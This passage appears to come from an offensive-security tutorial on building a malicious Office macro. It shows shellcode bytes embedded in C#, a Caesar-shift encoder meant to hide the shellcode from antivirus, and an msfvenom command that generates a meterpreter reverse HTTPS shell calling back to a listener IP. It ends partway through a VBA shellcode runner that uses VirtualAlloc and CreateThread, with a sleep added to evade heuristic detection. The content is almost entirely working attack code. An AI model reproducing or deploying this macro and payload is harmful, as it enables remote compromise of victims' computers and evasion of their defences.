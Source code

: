 ```csharp
			0x68,0x00,0x20,0x00,0x00,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,
			0xc0,0x74,0xcf,0x8b,0x07,0x01,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,
			0x6b,0xff,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,0x2e,
			0x36,0x36,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
			// ceaser encoder
			byte[] encoded = new byte[buf.Length];
			for (int i = 0; i < buf.Length; i++)
			{
				encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
			}

			uint counter = 0;
			//convert byte array toa string using the String builder class
			StringBuilder hex = new StringBuilder(encoded.Length * 2);
			foreach (byte b in encoded)
			{
				hex.AppendFormat("{0:D}, ", b);
				counter++;
				if (counter % 50 == 0)
				{
					hex.AppendFormat("_{0}", Environment.NewLine);
				}
			}
			// print encoded shelllcode to screen
			Console.WriteLine("The VBA payload is: " + hex.ToString());
		}
	}
}

```

Now Input the output of the helper.exe {which is an encrypted reverse shellcode}into the VB shellcode runner below

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication


{% highlight vb %}
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Function MyMacro()
	Dim buf As Variant
	Dim addr As LongPtr
	Dim counter As Long
	Dim data As Long
	Dim res As Long
	Dim t1 As Date
	Dim t2 As Date
	Dim time As Long
	
'sleeper to bypass heuristic detection
	t1 = Now()
	Sleep (2000)
	t2 = Now()
	time = DateDiff("s", t1, t2)
	